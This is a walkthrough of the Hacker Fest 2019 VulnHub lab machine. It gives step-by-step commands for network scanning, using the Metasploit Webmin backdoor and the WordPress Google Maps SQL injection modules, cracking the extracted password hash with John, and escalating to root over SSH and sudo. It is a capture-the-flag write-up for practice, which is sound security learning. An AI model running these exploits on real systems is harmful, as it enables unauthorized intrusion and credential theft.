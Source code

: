 ```yaml
---
published: true
category: Vulnhub
---
```

**Url**: [HF VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,378/) 

**Difficulty**: Easy 

**Author**: Martin Haller

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://imgur.com/7ukhwVk.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.112</pre>

![nmap](https://imgur.com/oJwydwu.png)

### FTP

The port scan reveals ports 21 (ftp), 22 (ssh) and 10000 which seems to be hosting Webmin. I will attempt to connect via FTP via Anonymous. This was an extremely easy way to gain access to all the wordpress websites files, however I will be exploring other methods which require more exploitation. 

![ftp](https://imgur.com/HMUog0K.png)

Some simple enumeration and an understanding of back end web apps will get you the right information.

### Webmin

Some research shows a Webmin 1.920 vulnerability. I use searchsploit to find these vulnerabilities. 
I am particularly interested in the Unauthenticated Remote Code Execution. 

![ss](https://imgur.com/LXDbbsN.png)

On metasploit console, we use the webmin exploit and fill out the necessary options as demonstrated below:

<pre>msfconsole
use exploit/linux/http/webmin_backdoor
show options
set rhosts 192.168.56.112
set ssl true
set lhost 192.168.56.101</pre>

![msf](https://imgur.com/82fsLmB.png)

The exploit is ready to go.

<pre>exploit
id</pre>

![root](https://imgur.com/S4YAYol.png)

Root access.

### Wordpress

Another attack vector is the Wordpress site on port 80.

![wordpress](https://imgur.com/QQEnpNS.png)

WPScan will be used to find any vulnerabilities and possible users on the website. Please note that you use a WPScan API Token from [here](https://wpvulndb.com) to view the vulnerable data.

<pre>wpscan --url http://192.168.56.112/ -e vp,u</pre>

![wpscan](https://imgur.com/RGq0tck.png)

After some research, the [Unauthenticated SQL Injection vulnerability](https://www.rapid7.com/db/modules/auxiliary/admin/http/wp_google_maps_sqli) seems like the best route to go down. There is a Metasploit module for this. 

Something else to note is the username 'webmaster' found on the Wordpress site. 

<pre>msfconsole
use auxiliary/admin/http/wp_google_maps_sqli
show options
set RHOSTS 192.168.56.112</pre>

![msfwp](https://imgur.com/0meG4gb.png)

The exploit has been correctly set up. Run the exploit.

<pre>exploit</pre>

![exploit](https://imgur.com/ppsBmh8.png)

A hash value has been returned with the correct username that was found before on the WPScan results.

<pre> 192.168.56.112:80 - Found webmaster $P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1 webmaster@none.local </pre>

Let's ask our friend John to crack it. Use rockyou.txt as the wordlist.

<pre>echo "$P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt</pre>

![john](https://imgur.com/anjD7Hz.png)

The password "kittykat1" has been returned.

Let's try connect via ssh:

<pre>ssh webmaster@192.168.56.112
kittykat1</pre>

![ssh](https://imgur.com/cR73wtu.png)

We are logged in as webmaster. 
Check the sudo privileges with the following command:

<pre>sudo -l</pre>

This user is basically already root so let's just change to root shell with the following:

<pre>sudo -i</pre>

And we are root.

![root](https://imgur.com/Xti6L5k.png)
